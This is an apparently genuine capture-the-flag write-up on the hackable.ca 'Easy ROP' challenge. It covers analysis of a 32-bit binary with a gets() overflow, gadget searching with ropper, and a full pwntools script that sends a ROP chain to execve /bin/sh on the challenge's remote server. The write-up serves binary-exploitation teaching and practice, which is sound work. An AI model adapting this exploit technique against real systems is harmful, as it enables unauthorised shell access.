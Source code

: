 Title: Hackable.ca Easy ROP
Date: 2018-7-30 10:02
Modified: 2018-7-30 10:02
Category: ctf
Tags: ctf, pwnable, binary exploitation, rop
Slug: hackable_ca_easyROP
Authors: F3real
Summary: How to solve hackable.ca Easy ROP

In this post we are going to take a look at one of challenges from [http://hackable.ca/](http://hackable.ca/). It is (not so) Easy ROP challenge. First lets run `file` on binary they provided:

    root@kali:~/ctf/hackable.ca_easyROP# file ropeasy_updated 
    ropeasy_updated: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.32, BuildID[sha1]=61d5d8b74151b4dfa900d5e2d66b9c2e0adcfa85, not stripped

We see it is 32bit non-stripped ELF program, since we don’t have source code we can use IDA to get pseudocode (`F5` hotkey while in function).

~~~c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // eax@1

  v3 = _x86_get_pc_thunk_ax(&argc);
  puts(&aTryRunningBinS[v3 - 134515245]);
  smashMe();
  return 0;
}

int smashMe()
{
  char v1; // [sp+Ch] [bp-Ch]@1

  printf("\nuser input: ");
  fflush(stdout);
  return gets(&v1);
}
~~~

It is really simple executable with obvious overflow in `smashMe` (`gets` function). We are also going to check security features enabled on this binary.

    gdb-peda$ checksec
    CANARY    : disabled
    FORTIFY   : disabled
    NX        : ENABLED
    PIE       : disabled
    RELRO     : Partial

We see that only NX (Non-executable memory) bit is set. Good thing is that, since PIE is disabled, addresses won’t change which makes our job easier. I am using `checksec` command from `gdb-peda` (really helpful extension for `gdb`), but there is also a standalone script for it. Let’s try running the binary:

    root@kali:~/ctf/hackable.ca_easyROP# ./ropeasy_updated

    try running /bin/sh

    user input: test

Program asks us for input and immediately quits. First, let’s try to find the address of `system` and `/bin/sh`.

    gdb-peda$ p system
    No symbol table is loaded.  Use the "file" command.

It seems that `system` is not linked in this binary. This makes ROP harder but we can use `execve` syscall to run `/bin/sh`. One of the other things we have to do is find the offset of `EIP`. We can create a pattern in `gdb-peda`:

    gdb-peda$ pattern create 20
    'AAA%AAsAABAA$AAnAACA'

When we give this pattern (if it is long enough) to program it will crash with `SIGSEGV` (segmentation fault). This pattern is non-repeatable so we can tell `gdb-peda` to look for it in registers after program segfault and determine offsets.

    gdb-peda$ pattern search

![Easy rop pattern search]({static}/images/2018_7_30_easyRop1.png){: .img-fluid .centerimage}

We see that `EIP` offset is at 16 and that we also have `EBX` at 8. One of the things to note is that `gdb` can modify stack a bit (because of environment variables) so it is better to run the program and then attach `gdb` to it then to run it inside `gdb`.

To get `execve` syscall we need following arguments:

    EAX      0x0b      //identifies execve syscall
    EBX      /bin/sh
    ECX      0
    EDX      0

To find ROP gadgets we need we are going to use [**ropper**](https://github.com/sashs/Ropper). Let's look for `int 0x80; ret;` first since it is required for syscall.

~~~text
root@kali:~/ctf/hackable.ca_easyROP# ropper --file ropeasy_updated --search "int 0x80; ret;"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: int 0x80; ret;

[INFO] File: ropeasy_updated
0x08070470: int 0x80; ret;
~~~

We are going to repeat this procedure to find other gadgets we need as well.

    0x080b94a6: pop eax; ret;
    0x0806feaa: pop edx; ret;  
    0x0806fed1: pop ecx; pop ebx; ret;

Since we couldn’t find simple `pop ecx; ret;` we are using closest one we could find. Procedure to find address for `/bin/sh` is a bit different. All static strings are stored in `.rodata` section (*read-only-data*) in ELF binaries. We can find address using:

    root@kali:~/ctf/hackable.ca_easyROP# objdump -s -j .rodata ./ropeasy_updated  | grep /bin/sh
     80bc660 6e67202f 62696e2f 7368002e 2e2f6373  ng /bin/sh.../cs

We don’t get exact address so we need to add offset (`0x03`). So lets combine all of this together:

    "AAAA"
    "AAAA"  
    "AAAA"
    "AAAA"
    0x080b94a6    # pop eax; ret;
    0x0000000b    # argument for execv
    0x0806feaa    # pop edx; ret;
    0x00000000    # we need 0 in EDX
    0x0806fed1    # pop ecx; pop ebx; ret;
    0x00000000    # we need 0 in ECX
    0x80bc660+0x3 # /bin/sh
    0x08070470    # int 80; ret;

We could have also overwritten `EBX` sooner but, since in gadget for `ECX` we have `pop EBX` again, it is not needed. Now let’s write **pwntools** script implementing this exploit.

~~~python
from pwn import *

context.arch = 'i386'
context.terminal = 'tmux'

r = remote('pwnable.hackable.ca',  9999)
print r.recvuntil('user input: ')

addr_1 = p32(0x80bc660+0x3)   # /bin/sh
addr_2 = p32(0x08070470)      # int 80; ret;
addr_3 = p32(0x080b94a6)      # pop eax; ret;
addr_4 = p32(0x0806feaa)      # pop edx; ret;
addr_5 = p32(0x0806fed1)      # pop ecx; pop ebx; ret; 

payload = "A"*16 + addr_3 + "\x0b" + "\x00"*3 + addr_4 + "\x00"*4 + addr_5 + "\x00"*4 + addr_1 + addr_2
print payload
r.send(payload)
r.interactive()
~~~

And running it, we get the flag :D

![Easy rop flag]({static}/images/2018_7_30_easyRop2.png){: .img-fluid .centerimage}

***

Making ROP chain involves a lot of tinkering and failing so it is really helpful to inspect core files (from segfaults).

    gdb ./ropeasy_updated ./core

After that, we can inspect the register state at the time of crash with `i r` and stack state with `i s`.
